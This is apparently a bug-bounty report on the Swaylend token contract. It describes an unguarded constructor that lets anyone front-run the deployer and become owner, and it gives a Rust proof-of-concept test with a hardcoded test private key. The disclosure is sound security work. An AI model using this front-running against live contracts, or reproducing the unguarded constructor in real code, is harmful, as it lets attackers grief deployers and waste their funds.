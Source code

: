 # #35853 \[SC-Medium] permissonless constructor always for front-running owner initialization.

**Submitted on Oct 10th 2024 at 20:41:19 UTC by @SeveritySquad for** [**IOP | Swaylend**](https://immunefi.com/audit-competition/iop-swaylend)

* **Report ID:** #35853
* **Report Type:** Smart Contract
* **Report severity:** Medium
* **Target:** https://github.com/Swaylend/swaylend-monorepo/blob/develop/contracts/src-20/src/main.sw
* **Impacts:**
  * Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
  * Theft of gas

## Description

## Brief/Intro

The constructor of the SwayLend token allows anyone to front-run the real deployer of the contract and initialize themselves as the owner; this can lead to griefing and gas waste.

## Vulnerability Details

On the call to the \`constructor()\` anyone can initialize themselves as the owner, causing subsequent calls to fail, forcing the deployers to always have to re-deploy the token, this will lead to waste of gas and griefing. \`\`\`rust fn constructor(owner\_: Identity) { require( storage .owner .read() == State::Uninitialized, "owner-initialized", ); storage.owner.write(State::Initialized(owner\_)); } \`\`\`

## Mitigation

It is best to set the owner as configurable since there is no way to transfer ownership.

## References

* https://github.com/Swaylend/swaylend-monorepo/blob/9132747331188b86dd8cbf9a1ca37b811d08dddb/contracts/src-20/src/main.sw#L41C1-L50C6

## Proof of Concept

## Proof of Concept

Add to contracts/src-20/scripts/deploy.rs to test.

\`\`\`rust #\[tokio::test] #\[should\_panic] async fn front\_run\_initialization() { use fuels::crypto::SecretKey; dotenv().ok();

```
// setup fuel provider
let rpc &#x3D; std::env::var(&quot;RPC&quot;).unwrap();
let provider &#x3D; Provider::connect(rpc).await.unwrap();

// setup wallet
let secret &#x3D; std::env::var(&quot;SECRET&quot;).unwrap();
// let private_key: SecretKey &#x3D; &quot;6d39e7ec67f1414e804a52e33989d7162c18084f47e05fdbd04a2b653dc05391&quot;.parse().unwrap();

// let attacker: WalletUnlocked &#x3D; WalletUnlocked::new_from_private_key(private_key, Some(provider.clone()));

let wallet: WalletUnlocked &#x3D;
    WalletUnlocked::new_from_private_key(secret.parse().unwrap(), Some(provider.clone()));

// deploy token
let configurables &#x3D; TokenConfigurables::default();
let root &#x3D; PathBuf::from(env!(&quot;CARGO_WORKSPACE_DIR&quot;));
let bin_path &#x3D; root.join(&quot;contracts/src-20/out/debug/src-20.bin&quot;);
let config &#x3D; LoadConfiguration::default().with_configurables(configurables);

let mut rng &#x3D; rand::thread_rng();
let salt &#x3D; rng.gen::&lt;[u8; 32]&gt;();

let id &#x3D; Contract::load_from(bin_path, config)
    .unwrap()
    .with_salt(salt)
    .deploy(&amp;wallet, TxPolicies::default())
    .await
    .unwrap();
let instance &#x3D; Token::new(id.clone(), wallet.clone());

let private_key: SecretKey &#x3D; &quot;6d39e7ec67f1414e804a52e33989d7162c18084f47e05fdbd04a2b653dc05391&quot;
    .parse()
    .unwrap();
let attacker: WalletUnlocked &#x3D;
    WalletUnlocked::new_from_private_key(private_key, Some(provider.clone()));

// simulate an attacker frontrunning the owners call to constructor.
instance
    .clone()
    .with_account(attacker.clone())
    .methods()
    .constructor(wallet.address().into())
    .call()
    .await
    .unwrap();
// on the call to contructor by owner, the call will always fail.
instance
    .methods()
    .constructor(wallet.address().into())
    .call()
    .await
    .unwrap();
```

} \`\`\`
